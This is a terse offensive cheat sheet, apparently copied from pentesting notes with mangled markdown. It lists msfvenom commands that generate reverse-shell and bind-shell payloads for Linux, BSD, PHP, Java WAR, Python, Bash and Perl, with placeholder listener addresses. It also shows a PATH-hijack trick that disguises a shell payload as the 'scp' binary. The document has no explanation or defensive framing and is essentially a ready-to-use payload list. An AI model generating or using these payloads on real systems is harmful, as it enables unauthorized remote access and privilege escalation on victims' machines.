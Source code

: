 # **Linux**

MAking executable payload -- export PATH=/home/bob:$PATH {change to payload directory accordingly in PATH and chmod 755 scp}  
msfvenom -p linux/x86/exec CMD=/bin/sh -f elf -o scp  
or  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=x.x.x.x  
  
**

### # PHP reverse shell

**

###   
msfvenom -p php/meterpreter/reverse_tcp LHOST=x.x.x.x  
  

**

### # Java WAR reverse shell

**

###   
msfvenom -p java/shell_reverse_tcp LHOST=x.x.x.x  
  

**

### # Linux bind shell

**

###   
msfvenom -p linux/x86/shell_bind_tcp LPORT=4321 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai  
  

**

### # Linux FreeBSD reverse shell

**

###   
msfvenom -p bsd/x64/shell_reverse_tcp LHOST=x.x.x.x  
  

**

### # Linux C reverse shell

**

###   
msfvenom -p linux/x86/shell_reverse_tcp LHOST=

x.x.x.x  
  
**

## Scripting Payloads

**

##   
msfvenom -p cmd/unix/reverse_python LHOST=x.x.x.x  
Python  
  
msfvenom -p cmd/unix/reverse_bash LHOST=x.x.x.x  
Bash  
  
msfvenom -p cmd/unix/reverse_perl LHOST=x.x.x.x  
Perl